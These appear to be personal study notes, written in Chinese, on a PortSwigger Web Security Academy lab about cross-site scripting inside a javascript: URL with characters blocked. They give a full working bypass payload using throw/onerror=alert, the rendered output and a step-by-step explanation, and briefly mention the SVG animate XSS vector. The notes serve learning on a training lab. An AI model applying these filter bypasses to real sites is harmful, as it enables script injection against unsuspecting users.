 解答這個更好，用 `?` 當作 querystring ，這樣就作為 URL 的一部分  
```
http://foo?&apos;-alert(1)-&apos;

```

特別的 case  
1. `5&'` 這裡的 `'` 結束 JS obejct value 的字串
2. `,` 分隔符號，換 object 下一組 key:value 用的
3. `x=x=>{throw/**/onerror=alert,1337}` 這段我沒有完全理解
    - 我猜，`x = x => {}` 這邊是要指定 function 進去

```
https://YOUR-LAB-ID.web-security-academy.net/post?postId=5&'},x=x=>{throw/**/onerror=alert,1337},toString=x,window+'',{x:'
```

傳入 payload 後，結果為
```html
<a href="javascript:fetch('/analytics', {method:'post',body:'/post%3fpostId%3d3%26%27},x%3dx%3d%3e{throw/**/onerror%3dalert,1337},toString%3dx,window+%27%27,{x%3a%27'}).finally(_ => window.location = '/')">Back to Blog</a>
```


這是這 case 的 context，當 URL 為 `URL?postId=3&777777` 時
```html
<a href="javascript:fetch('/analytics', {method:'post',body:'/post%3fpostId%3d3%26777777'}).finally(_ => window.location = '/')">Back to Blog</a>
```

解答說明: https://portswigger.net/web-security/cross-site-scripting/contexts/lab-javascript-url-some-characters-blocked
- 該漏洞用 exception handling 來呼叫 alert (並傳入參數
- throw 語句，用「空白註解」分隔，繞過無空格限制
- 這 alert 功能被分配給 onerror exception handling
- throw 是語句(statement)，不能用作表達式(expression)
- 我們需要使用 arrow functions 來創造一個 block，以便 throw 可以使用 statement
- 然後我們需要呼叫這個 function
- 所以我們將它分 assign 給 `window` 的 `toString` property，並通過強制進行字串轉換來觸發它


SVG animate XSS vector
- https://portswigger.net/research/svg-animate-xss-vector
- 用 `svg` `animate` `attributeName` `href` `values` 來混淆 a 不能 href 的時候
  - cheat sheet 那邊搜尋 `attributeName` 還能看到好幾個範例  


